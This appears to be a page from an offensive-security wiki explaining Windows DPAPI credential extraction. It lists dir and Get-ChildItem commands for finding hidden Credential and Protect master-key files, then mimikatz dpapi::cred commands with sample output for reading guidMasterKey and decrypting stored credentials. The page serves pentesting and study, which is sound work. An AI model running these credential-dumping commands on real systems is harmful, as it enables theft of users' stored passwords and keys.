 ## Credential Files

The **credentials files protected** could be located in:

```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

Get credentials info using mimikatz `dpapi::cred`, in the response you can find interesting info such as the encrypted data and the guidMasterKey.

```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```

You can use **mimikatz module** `dpapi::cred` with the appropiate `/masterkey` to decrypt:

```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```

## Master Keys

The DPAPI keys used for encrypting the user's RSA keys are stored under `%APPDATA%\Microsoft\Protect\{SID}` directory, where {SID} is the [**Security Identifier**](https://en.wikipedia.org/wiki/Security\_Identifier) **of that user**. **The DPAPI key is stored in the same file as the master key that protects the users private keys**. It usually is 64 bytes of random data. (Notice that this directory is protected so you cannot list it using`dir` from the cmd, but you can list it from PS).

```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```

This is what a bunch of Master Keys of a user will looks like:

![](<../../.gitbook/assets/image (324).png>)

Usually **each master keys is an encrypted symmetric key that can decrypt other content**. Therefore, **extracting** the **encrypted Master Key** is interesting in order to **decrypt** later that **other content** encrypted with it.
